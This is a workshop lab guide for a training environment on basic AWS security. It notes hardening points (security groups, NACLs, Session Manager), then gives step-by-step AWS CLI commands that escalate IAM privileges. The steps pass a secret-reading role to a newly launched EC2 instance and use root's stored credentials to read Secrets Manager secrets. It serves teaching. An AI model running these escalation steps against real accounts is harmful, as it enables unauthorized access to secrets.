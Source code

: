# Basic cloud security
Today we will follow the tracks of a reckless engineer to read his darkest secrets. We will start on the workstation which you can find at https://lab.devopsplayground.org/

## Getting through the doors
Once you open your terminal, you can see the workdir directory with the `target-instance.txt` file where you can see a user and ip address of the server you need to log into. We will let you "guess" the password.
Assuming that you logged in succesfully we are going to stop and look at what we could do better on the account to prevent access to the server.
### Security group
We are going to start with Security groups which are attached to the instance. Allowing all traffic from any source is a dangerous practice and you should limit entries to the trusted sources and the ports actually used by the application/service.

<p align="center">
  <img src="./images/sg.png" />
</p>

Security groups are stateful therfore allowing incoming traffic allows the response.

See more in the documentation: https://docs.aws.amazon.com/vpc/latest/userguide/security-groups.html

### NACL
Network Access Control Lists allow you to manage traffic withing your VPC (applied to subnets), they are evaluated before Security groups and are stateless (You need to allow response traffic separately).

See more in the documentation: https://docs.aws.amazon.com/vpc/latest/userguide/vpc-network-acls.html

### Systems Manager
Lastly - it is worth to ask ourselves the question if allowing to access the instance via ssh is absolutely necessary. AWS allows you to use session manager for a console access to the server and use IAM to control the accesss to the instances.

See more in the documentation https://docs.aws.amazon.com/systems-manager/latest/userguide/session-manager.html

## IAM privilige escalation
### Discover availible credentials 
Once we logged in onto the ec2 instance we can discover if any IAM, API credenials are availible. Lets execute:
```
aws sts get-caller-identity
```
Your output should look like below:
<p align="center">
  <img src="./images/get-caller-identity.png" />
</p>
We can see that the instance assumed role dpg-funny-panda-workstation. Lets see what permissions are attached to this role. We can do this by executing:

```bash
aws iam list-attached-role-policies --role-name dpg-funny-panda-workstation
```
Your output should look like below: 

<p align="center">
  <img src="./images/list-policies.png" />
</p>

We can see one IAM policy attached to the role, lets investigate what permissions are defined in the policy.
Firs we need to look into the the policy:
```
aws iam get-policy --policy-arn arn:aws:iam::204521158369:policy/dpg-funny-panda-workstation
```

Your output should look like below:

<p align="center">
  <img src="./images/get-policy.png" />
</p>

Note the default policy version and execute:
```
aws iam get-policy-version --policy-arn arn:aws:iam::204521158369:policy/dpg-funny-panda-workstation --version-id v3
```
You should see the full IAM policy and your output should start with below:

<p align="center">
  <img src="./images/instance-policy.png" />
</p>

The above policy allows us ec2 actions as as to pass secret-read-role. Lets investigate what policies this role has and what permissions are defined for this role. Lets execute three commands below
```
aws iam list-attached-role-policies --role-name secret-read-role
aws iam get-policy --policy-arn arn:aws:iam::204521158369:policy/get-playground-secret
aws iam get-policy-version --policy-arn arn:aws:iam::204521158369:policy/get-playground-secret --version-id v1
```
Your last output should look like
<p align="center">
  <img src="./images/secret-policy.png" />
</p>


We can see that the policy allows us to read one of the secrets on the account. To do so we can create a new EC2 instance and attach secret-read-role to the instance profile and once we connect to the new server read the secret. 

First, lets create a new key-pair:
```
aws ec2 create-key-pair \       
   --key-name funny-panda \
   --query 'KeyMaterial' --output text > ~/.ssh/funny-panda
```

Now lets find out more about our current instance to deploy our new server in the same network. We can find our instance ID by executing:
```
aws sts get-caller-identity
```
Once we grab the id we can execute:
```bash
aws ec2 describe-instances --instance-ids i-02baacbaf617999e1
```
Your output should be a JSON file with the instance configuration like below.

<p align="center">
  <img src="./images/ec2.png" />
</p>

Note the the AMI ID, Security group id, and subnet ids, next lets create a new EC2 instance with the command below:
```bash
aws ec2 run-instances \
    --image-id ami-00caa7df15d2e771f \
    --count 1 \
    --instance-type t2.micro \
    --key-name funny-panda \
    --security-group-ids sg-09587dd14a1f9db3d \
    --subnet-id subnet-0dcf0c3a01abc9808 \
    --block-device-mappings "[{\"DeviceName\":\"/dev/sdf\",\"Ebs\":{\"VolumeSize\":30,\"DeleteOnTermination\":false}}]" \
    --tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=funny-panda}]' 'ResourceType=volume,Tags=[{Key=Name,Value=funny-panda-disk}]'
```
Once your new instance is created - note its IP address. Next lets create an instance profile.
```bash
aws iam create-instance-profile \
 --instance-profile-name funnypanda
```
and attach the role to the profile
```bash
aws iam add-role-to-instance-profile \
--instance-profile-name funnypanda \
--role-name secret-read-role
```
And finally associate the profile with our instance:
```bash
aws ec2 associate-iam-instance-profile --iam-instance-profile Name=funnypanda --instance-id i-0516aa13e97073823
```
Now our new server is ready to be used. Lets modify the permissions of our key before we use it to ssh to the server
```
chmod 400 ~/.ssh/funny-panda
```
And ssh to the target server:
```
ssh ec2-user@@10.0.10.156 -i ~/.ssh/funny-panda
```
Once logged in we can try our last command:
```
aws secretsmanager get-secret-value --secret-id playground-secret
```

## OS privilage escalation + API keys
So we managed to read one of the secrets, but there is still one more around the corner. Lets get back to our target instance and see if our user is added to the sudoers list.
```bash
sudo su
```
Now once we are a root user lets try:
```
aws sts get-caller-identity
```
You should notice that this time we assumed a different AWS entity, AWS user, like below

<p align="center">
  <img src="./images/root.png" />
</p>

It looks like there are locally stored credentials for the root user which take precedence over attached role. We can confirm that by trying

```bash
env | grep AWS
```
Now lets see what permissions we have attached to this user.

```bash
aws iam list-attached-user-policies --user-name dpg-sweet-panda
```
Looks like there are no policies attached:
<p align="center">
  <img src="./images/user-policies.png" />
</p>
Lets see if user has any inline policy then.

```bash
aws iam list-user-policies --user-name dpg-sweet-panda
```
<p align="center">
  <img src="./images/user-inline.png" />
</p>
There is an inline policy attached to this user - let's investigate further

```bash
aws iam get-user-policy --user-name dpg-sweet-panda --policy-name policy-dpg-sweet-panda
```
You should notice a familiar statement in the policy
<p align="center">
  <img src="./images/user-secret.png" />
</p>
Lastly lets reveal the last part be executing:

```bash
aws secretsmanager get-secret-value --secret-id User_secret
```